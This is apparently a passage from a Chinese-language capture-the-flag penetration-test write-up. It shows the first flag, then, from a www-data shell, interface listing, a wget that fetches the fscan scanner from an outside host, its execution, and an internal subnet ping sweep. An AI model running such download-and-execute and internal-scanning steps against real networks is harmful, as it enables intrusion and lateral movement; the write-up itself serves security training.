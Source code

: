 ## flag - 01

```plaintext
 ________ ___       ________  ________  ________    _____
|\  _____\\  \     |\   __  \|\   ____\|\   __  \  / __  \
\ \  \__/\ \  \    \ \  \|\  \ \  \___|\ \  \|\  \|\/_|\  \
 \ \   __\\ \  \    \ \   __  \ \  \  __\ \  \\\  \|/ \ \  \
  \ \  \_| \ \  \____\ \  \ \  \ \  \|\  \ \  \\\  \   \ \  \
   \ \__\   \ \_______\ \__\ \__\ \_______\ \_______\   \ \__\
    \|__|    \|_______|\|__|\|__|\|_______|\|_______|    \|__|


        flag01: flag{22159bd3-4d49-44be-a4a1-aba3e8a03834}
```

## 入口点 内网扫描

查看网卡信息

```shell
(remote) www-data@ubuntu-web:/tmp$ ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.22.15.26  netmask 255.255.0.0  broadcast 172.22.255.255
        inet6 fe80::216:3eff:fe23:b5cb  prefixlen 64  scopeid 0x20<link>
        ether 00:16:3e:23:b5:cb  txqueuelen 1000  (Ethernet)
        RX packets 123137  bytes 126113430 (126.1 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 46383  bytes 16332362 (16.3 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 1220  bytes 108670 (108.6 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 1220  bytes 108670 (108.6 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

上传 `fscan` 并进行扫描

```shell
(remote) www-data@ubuntu-web:/tmp$ wget 139.9.4.56:8000/fscan_amd64.1
--2024-07-26 14:45:03--  http://139.9.4.56:8000/fscan_amd64.1
Connecting to 139.9.4.56:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 6217056 (5.9M) [application/octet-stream]
Saving to: ‘fscan_amd64.1’

fscan_amd64.1                                       100%[===================================================================================================================>]   5.93M  13.3MB/s    in 0.4s

2024-07-26 14:45:04 (13.3 MB/s) - ‘fscan_amd64.1’ saved [6217056/6217056]

(remote) www-data@ubuntu-web:/tmp$ chmod +x fscan_amd64.1
(remote) www-data@ubuntu-web:/tmp$ ./fscan_amd64.1 -h 172.22.15.26/24
......
start ping
(icmp) Target 172.22.15.13    is alive
(icmp) Target 172.22.15.18    is alive
(icmp) Target 172.22.15.24    is alive
(icmp) Target 172.22.15.26    is alive
(icmp) Target 172.22.15.35    is alive
```